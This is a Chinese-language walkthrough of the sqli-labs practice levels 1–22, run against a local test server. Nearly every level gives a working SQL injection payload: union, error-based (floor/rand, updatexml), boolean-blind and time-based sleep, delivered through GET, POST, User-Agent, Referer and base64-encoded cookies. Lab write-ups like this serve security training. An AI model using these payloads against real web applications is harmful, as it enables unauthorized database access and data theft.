## 第一关 GET Error based- Single quotes

payload

```
http://localhost/Less-1/?id=1' order by 3 -- +
```



(火狐不知道为什么感觉有bug)

在确定回显的时候，要注意去查一个不存在的数据

```
http://localhost/Less-1/?id=888' union select 1,2,3 --+
```

## 第二关 GET Error based-Intiger

没有单引号保护

```
http://localhost/Less-2/?id=12312 union select 1,2,3 #
```



## 第三关

加了括号保护

```sql
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

```
http://localhost/Less-3/?id=22333' ) union select 1,2,3 --+
```



## 第四关

双引号保护

```
http://localhost/Less-4/?id=1111") union select 1,2,3--+
```



## 第五关 Double injection-Single Quotes

这里理解一下报错注入

```sql
select count(*),(concat(floor(rand(0)*2),(select version())))x from users group by x
```

`floor(rand(0)*2)` 产生的数据很有规律

```
mysql> select floor(rand(0)*2) from users
;
+------------------+
| floor(rand(0)*2) |
+------------------+
|                0 |
|                1 |
|                1 |
|                0 |
|                1 |
|                1 |
|                0 |
|                0 |
|                1 |
|                1 |
|                1 |
|                0 |
|                1 |
+------------------+
0110 1100
```

再看 `group by`

首先计算第一次 `group by` 后面的字段值，然后去查找有没有，没有就需要插入，插入的时候需要再计算一次

[参考](https://blog.csdn.net/he_and/article/details/80455884)

在第三次插入的时候出问题

最后的payload

```
http://localhost/Less-5/?id=2' and (select 1 from (select count(*),concat(((select group_concat(schema_name) from information_schema.schemata)),floor (rand(0)*2))x from information_schema.tables group by x)a) --+
```



数据库也可以这样查

```sql
mysql> select group_concat(schema_name) from information_schema.schemata;
+--------------------------------------------------------------------------------------------------------------------------------+
| group_concat(schema_name)                                                                                                      |
+--------------------------------------------------------------------------------------------------------------------------------+
| information_schema,challenges,ctf,dvwa,ed01,mysql,newdb,performance_schema,reservation,security,sys,test,tptest,typecho,xinxiu |
+--------------------------------------------------------------------------------------------------------------------------------+
1 row in set
```

简单一点的 payload

```
http://localhost/Less-5/?id=1' and (select 1 from (select count(*),  concat((select database()), floor(rand(0)*2))x from information_schema.tables group by x )a) --+
```

## 第六关

同第五关类似

```
http://localhost/Less-6/?id=2" and (select 1 from (select count(*), concat(floor(rand(0)*2), (select database()))x from information_schema.tables group by x)a) --+
```



## 第七关

是写shell，但是我没有成功(其实是因为mysql开了权限吧估计)

## 第八关

布尔盲注(多加一些括号)

```sql
http://localhost/Less-8/?id=1' and (select ascii(mid((select database()), 1,1)))=115 --+
```



## 第九关 延时注入

延时注入

```sql
http://localhost/Less-9/?id=1' and (select  if(ascii(substr(database(),1,1))>200 , sleep(5), NULL) ) --+
```



## 第十关

延时注入，只是换成了双引号

```sql
http://localhost/Less-10/?id=1" and (select if( ascii(substr(database(),1,1)) > 40, sleep(5), NULL)) --+
```



## 第十一关

POST形式的单引号

```
uname=&passwd=admin' union select 1,2-- +&submit=Submit
```



## 第十二关

POST形式的双引号

payload(这次测试发现 `--+` 不行，需要换成 #)

```
uname=a&passwd=admin") union select 1,2# &submit=Submit
```



## 第十三关

有报错回显，但是并没有其他的数据回显



payload(遇到困难加括号就行了)

```
uname=admin&passwd=admin') and (select 1 from (select count(*), concat(floor(rand(0)*2),(select database()))x from information_schema.tables group by x)a)  #&submit=Submit
```



## 第十四关

同上一关类似

```
uname=admin&passwd=admin" and (select 1 from (select count(*), concat(floor(rand(0)*2), (select database()))x  from information_schema.tables group by x)a)# &submit=Submit
```

## 第十五关

延时注入,注意只能用 `#` 注释？

```sql
uname=admin&passwd=admin ' and (select  if(ascii(substr(database(),1,1))>30, sleep(5), NULL) ) #&submit=Submit
```



## 第十六关

同十五关

```
uname=admin&passwd=admin") and (select  if(ascii(substr(database(),1,1))>30, sleep(5), NULL) ) #&submit=Submit
```



## 第十七关 报错注入

update形式的注入，这里可以使用 报错注入

```
uname=admin&passwd=admin'  and (updatexml(1,concat(0x3a,(select database())),1)) #&submit=Submit
```



## 第十八关

payload

```sql
User-Agent: 1' or updatexml(1,concat(0x3a,(database())),0),'','')#
```



## 第十九关

payload

```
Referer:  1' or updatexml(1,concat(0x3a,(database())),0), '')#
```

INSERT 形式的注入



## 第二十关

cookie形式的报错注入

```sql
admin' and (updatexml(1,concat(0x3a,(select database())),1)) #
```



## 第二十一关

需要base64编码

```
admin' ) and (updatexml(1, concat(0x3a, (select database()),0x3a ) ,1)) #
```

编码之后

```
YWRtaW4nICkgYW5kICh1cGRhdGV4bWwoMSwgY29uY2F0KDB4M2EsIChzZWxlY3QgZGF0YWJhc2UoKSksMHgzYSApICwxKSkgIw==
```



## 第二十二关

改成了双引号闭合

```
admin" and (updatexml(1, concat(0x3a, (select database()),0x3a ) ,1)) #
```

base64编码之后

```
YWRtaW4iIGFuZCAodXBkYXRleG1sKDEsIGNvbmNhdCgweDNhLCAoc2VsZWN0IGRhdGFiYXNlKCkpLDB4M2EgKSAsMSkpICM=
```

